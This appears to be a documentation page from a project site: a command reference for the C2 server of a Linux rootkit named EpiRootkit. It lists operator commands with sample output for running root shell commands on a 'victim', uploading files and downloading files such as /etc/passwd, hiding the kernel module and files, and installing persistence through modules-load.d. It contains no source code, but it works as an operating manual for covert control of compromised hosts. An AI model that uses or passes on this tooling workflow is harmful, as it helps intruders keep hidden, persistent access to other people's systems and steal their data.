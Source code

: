 ```yaml
---
title: "Command Reference"
description: "Complete reference for all C2 server commands"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 303
---
```




## Command List

| Command | Description | Auth Required |
|---------|-------------|---------------|
| `clients, ls` | List connected clients | No |
| `auth <client> <password>` | Authenticate with client | No |
| `exec <client> <command>` | Execute shell commands | Yes |
| `upload <client> <local> [remote]` | Upload files to victim | Yes |
| `download <client> <remote> [local]` | Download files from victim | Yes |
| `status <client>` | Get rootkit status | Yes |
| `keepalive <client>` | Check connection status | Yes |
| `persist <client> [action]` | Manage persistence | Yes |
| `config <client>` | Interactive configuration | Yes |

## Client Management

### List Clients
```bash
ls               # List all connected clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
# • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM


```

### Authentication
```bash
auth Client-1 password     # Authenticate with client
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful

auth Client-1 wrongpass    # Wrong password
# ERROR: Authentication failed
```

**Security Features:**
- SHA-512 password hashing
- Rate limiting (5 attempts/60 seconds)
- Session timeout (1 hour)

## Command Execution

```bash
exec Client-1 whoami
exec Client-1 uname -a
exec Client-1 ps aux | head -5
```

**Features:**
- Root privileges execution
- Full stdout/stderr capture
- Exit code display
- Real-time output

## File Transfer

```bash
# Upload files
upload Client-1 ./file.txt /tmp/file.txt    # Upload to specific path
upload Client-1 ./script.sh                 # Upload to current directory

# Download files
download Client-1 /etc/passwd ./passwd      # Download to specific path
download Client-1 /etc/hostname             # Download to current directory
```

**Features:**
- Base64 encoding
- Path validation
- Binary/text file support
- Automatic path resolution

## System Information

### Status Check
```bash
status Client-1
# EpiRootkit Status:
# Version: 1.0.0
# Authentication: YES
# Connection: CONNECTED
# Module Hidden: YES
# File Hiding: YES
# Persistence: ENABLED
```

### Connection Check
```bash
keepalive Client-1
# Keepalive Status:
# Last ping: 2025-05-25 16:14:00
# Last pong: 2025-05-25 16:14:00
# Failed pings: 0
# Connection: STABLE
```

## Persistence Management

```bash
persist Client-1 install    # Install all mechanisms
persist Client-1 remove     # Remove all mechanisms
persist Client-1 modules    # modules-load.d only
```

## Configuration

### Interactive Config
```bash
config Client-1
# ┌─ Configuration - Client-1
#   Current Configuration:
#   [X] Module Hiding (Click to disable)
#   [X] File Hiding (Click to disable)
#   [X] Persistence (Click to disable)
#   
# ? Select option: [Use arrow keys]
```
**Available Settings:**
- Module hiding toggle
- File hiding toggle
- Persistence management
- Connection parameters

### Direct Commands
```bash
hide_module Client-1      # Hide rootkit module
unhide_module Client-1    # Show rootkit module
hide_files Client-1       # Enable file hiding
unhide_files Client-1     # Disable file hiding
```

## Error Handling

For detailed usage examples, see [Usage Guide](./usage.md).